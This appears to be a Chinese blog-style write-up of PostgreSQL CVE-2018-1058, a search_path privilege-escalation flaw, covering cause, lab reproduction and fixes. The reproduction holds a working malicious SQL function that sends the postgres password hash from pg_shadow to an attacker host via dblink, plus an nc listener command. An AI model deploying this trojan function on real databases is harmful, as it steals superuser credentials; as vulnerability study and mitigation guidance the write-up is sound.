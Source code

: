 # PostgreSQL 提权漏洞（CVE-2018-1058）

# 漏洞简介

PostgreSQL 是一款[关系型数据库](https://so.csdn.net/so/search?q=关系型数据库&spm=1001.2101.3001.7020)。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。



# 漏洞影响版本

影响版本

9.3到10



# 产生原因

PostgreSQL7.3版本之后，默认情况下，当一个用户创建一个数据库时，PostgreSQL会创建一个叫做public的模式。默认情况下，所有的对象都会被创建到这个模式下。所以SELECT * FROM a; 就等价于 SELECT * FROM public.a;

如果不更改配置信息，任何用户都可以在public模式下创建对象。名字相同的对象可以在相同数据库的不同模式下存在。如果出现这种情况，而且没有指定特定的模式和对象（例如schema.object），那么PostgreSQL会基于search_path的设置来决定那个对象会被使用。

在该情况下，一个恶意用户可能会植入一个函数，它的功能是当被超级用户执行时，将更大的权限赋给这个恶意用户


# 漏洞复现

前提：需要获取PostgreSQL数据库账号密码，可通过配置文件获取

利用kali连接对方服务器

![image-20220430180100242](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220430180100242.png)

执行如下语句后退出（向192.168.239.139的6666端口传送密码）

```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=192.168.239.139 port=6666 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

![image-20220430180218159](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220430180218159.png)

kali监听6666，等待超级用户触发我们留下的这个“后门”。

nc -lvvp 6666

装自己是超级用户，docker中，用超级用户的身份执行pg_dump命令，导出vulhub这个数据库的内容。

```
docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```

执行上述命令的同时，“后门”已被触发

![image-20220430180318324](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220430180318324.png)

kali中查看

![image-20220430180359151](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220430180359151.png)

收到了postgres用户经md5加密后的密码，解密即可

# 修复方案

1、不允许用户在public模式下创建新的对象。
可以用超级用户，在所有的数据库中运行下面这条命令：

REVOKE CREATE ON SCHEMA public FROM PUBLIC;
1
这会阻止所有的非超级用户在public模式下创建对象。

2、为数据库用户设置默认的search_path。

一个超级用户可以向系统中的每个用户发出这条命令，来将public模式从用户默认的search_path中移除：

ALTER ROLE username SET search_path = "$user";
1
3、在PostgreSQL的配置文件中设置默认的search_path。

也可以在postgresql.conf这个配置文件中将public模式从用户默认的search_path中移除。
